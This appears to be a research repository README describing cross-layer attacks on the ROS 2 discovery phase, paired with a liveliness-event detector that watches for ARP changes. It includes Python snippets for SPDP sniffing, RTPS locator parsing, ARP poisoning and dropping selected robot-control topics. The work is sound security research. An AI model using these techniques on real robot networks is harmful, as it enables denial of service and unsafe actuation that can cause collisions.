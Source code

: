# Cross-Layer Attacks from ROS 2 Discovery phase
<p align="center">
  <img alt="ROS2 logo" src="https://img.shields.io/badge/ROS--2-Humble-blue?style=for-the-badge">
  <img alt="Fast DDS logo" src="https://img.shields.io/badge/Fast--DDS-2.6.9-brightgreen?style=for-the-badge">
  <img alt="Scapy" src="https://img.shields.io/badge/Scapy-Packet%20Crafting-orange?style=for-the-badge">
</p>

## Paper Summary
ROS 2 protects communication data through SROS 2, but the unauthenticated discovery phase remains a security blind spot.
During the discovery phase, metadata such as IP addresses, ports, and participant identifiers are exposed and can be leveraged for ARP-based snooping, spoofing, and cross-layer attacks.

We design and implement cross-layer attack chains that manipulate lower network layers by leveraging these discovery-phase weaknesses.  
In real autonomous robot scenarios, we demonstrate that:

- **DoS attacks**: Even a short DoS lasting ~18 seconds can cause localization failure and induce a *kidnapped-robot* state.  
- **Selective forwarding attacks**: Dropping specific control packets can covertly block robot commands, leading to unsafe actuation, collisions, and potential physical damage.  

To counter these threats, we propose a detection mechanism that leverages QoS events, specifically ROS 2 liveliness events, to raise alerts during abnormal conditions and enable timely countermeasures.

Experiments were conducted on ROS 2 Humble with Fast DDS 2.6.9 over IEEE 802.11ac wireless links.
The attack code is released here to highlight how easily such vulnerabilities can be reproduced in practice, even against real robot systems.

#💡 How the Cross-Layer Attack Chain Works
## Step 1. Multicast Join & SPDP Reception
The script consists of three logical stages: (1) joining the DDS discovery multicast, (2) capturing discovery packets, and (3) parsing RTPS to extract unicast locators.
### 1. Joining the Multicast Group
> - Create a UDP socket and call IP_ADD_MEMBERSHIP to join the standard ROS 2 discovery multicast group so that SPDP announcements reach the host.
> ```python
> mreq = struct.pack("4s4s", socket.inet_aton(MCAST_GRP), socket.inet_aton(LISTEN_IP))
> sock.setsockopt(socket.IPPROTO_IP, socket.IP_ADD_MEMBERSHIP, mreq)
> ```

### 2. Packet Sniffing with Scapy
> - Use the Scapy tool to sniff and capture SPDP traffic with a BPF filter, processing each packet.
> ```python
> sniff(
>     filter=f"udp and host {MCAST_GRP} and port {SPDP_PORT}",
>     prn=packet_handler,
>     store=False
> )
> ```
### 3. Unicast Locator Extraction (RTPS Parsing)
> - Scan RTPS submessages, find DATA (ID 0x15), then parse the SerializedPayload → ParameterList to extract Unicast Locator parameters.
> ```python
> # Find DATA Submessage (ID: 0x15)
> if submessage_id == 0x15:
>     # Loop through ParameterList
>     while param_offset < param_list_end:
>         # Find Unicast Locator PID
>         if pid in [PID_METATRAFFIC_UNICAST_LOCATOR, PID_DEFAULT_UNICAST_LOCATOR]:
>             # Decode Locator data (kind, port, address)
>             ...
>             return f"UDPv4:{ip_addr}:{port}"
> ```


## Step 2. Cross-Layer Attack Execution (MITM / DoS / Selective Forwarding)
> **Purpose.**
> 
>This section documents a controlled feasibility demonstration conducted in a closed testbed to evaluate detection and resilience of ROS 2/DDS-RTPS systems. The procedures are intended solely for defensive research under proper authorization.
### 1. ARP Poisoning
> - Alters the ARP cache tables of the target nodes, rerouting their traffic through the attacker and thereby establishing an man-in-the-middle (MITM) position between the endpoints.
> ```python
> # Poison the target's ARP table
> arp = ARP(op=2, pdst=victim_ip, psrc=source_ip, hwdst=victim_mac)
> sendp(Ether(dst=victim_mac)/arp, iface=iface, verbose=False)
> ```

### 2. Traffic Hijacking
> **Denial-of-Service (Drop-All topic)**
> - Disables forwarding at the interposed test node so that intercepted traffic is not relayed, effectively severing connectivity between peers.
> ```python
> # Disable IP forwarding on the attacker's machine
> if sysname == "Linux":
>     subprocess.run(["sysctl", "-w", f"net.ipv4.ip_forward=0"], check=True)
> ```

> **Selective Forwarding Attack (Topic-Aware)**
> - Inspects RTPS headers to identify Writer Entity IDs associated with designated application streams and conditionally drops those packets while forwarding others, making the disruption harder to detect.
> ```python
> def nfqueue_callback(packet, state):
>     """NetfilterQueue callback for selective packet dropping"""
>     pkt = IP(packet.get_payload())
>     ...
>             # Check for target Writer Entity ID
>             for submsg in rtps_data.get('submessages', []):
>                 writer_entity_id = submsg.get('writer_entity_id', 'N/A')
>                 if writer_entity_id and state.should_drop_entity_id(writer_entity_id):
>                     print(f"[DROP] Blocking packet with Writer Entity ID: {writer_entity_id}")
>                     packet.drop()  # Drop specific packets
>                     return
>             
>     packet.accept()  # Forward all other packets
> ```

---
## 🔎 The Detection: QoS Triggered Anomaly Detection.
### 📜 Overview
This configuration underpins the node’s diagnostic capability. When a liveliness event is triggered (i.e., the liveliness lease is not renewed within lease_duration), the node launches an automated investigation rather than treating it as a mere disconnection. 

Immediately after the event, the node inspects the ARP table to distinguish causes:

- **No table change** → likely a benign network condition (temporary latency, loss, roaming).

- **Table change** → potential attack (e.g., IP→MAC remap of a publisher/gateway, or a single MAC mapped to multiple IPs).

This two-step process differentiates transient delay from deliberate manipulation.

### 1. QoS Event Callback Configuration
> - Liveliness callback fires when the publisher’s liveliness lease expires (NOT_ALIVE).
> ``` cpp
> auto qos = rclcpp::QoS(rclcpp::KeepAll()).reliable();
> qos.liveliness(RMW_QOS_POLICY_LIVELINESS_AUTOMATIC);
> qos.liveliness_lease_duration(std::chrono::seconds(2)); 
> // Bind the liveliness_callback function to the event
> rclcpp::SubscriptionOptions options;
> options.event_callbacks.liveliness_callback =
> std::bind(&MinimalSubscriber::liveliness_callback, this, _1);
> ```
>
### 2. Event-Driven Diagnostics (ARP Verification)
> **Update ARP Cache**: The node executes the system command arp -n to fetch the current IP-to-MAC address mappings on the network.
>
> **Verify Changes & Detect Conflicts**: It compares the newly fetched ARP table against its previously stored version.
> Critically, it checks if a single MAC address is mapped to multiple IP addresses.
> ``` cpp
> // C++ code snippet for the liveliness callback
> void MinimalSubscriber::liveliness_callback(rclcpp::QOSLivelinessChangedInfo &event)
> {
> // If a publisher is declared "not alive"...
>   if (event.not_alive_count > 0) {
>       // ...update the local ARP cache...
>       update_arp_cache();
>       // ...and verify it for changes and conflicts.
>       verify_arp_changes();
>     }
> }
> ```
✅ Platform note: Implemented and tested on Linux; root privileges may be required to access detailed arp cache table info.

## 📢 Notice
This project is currently compatible with ROS 2 Humble using Fast DDS 2.6.9. 
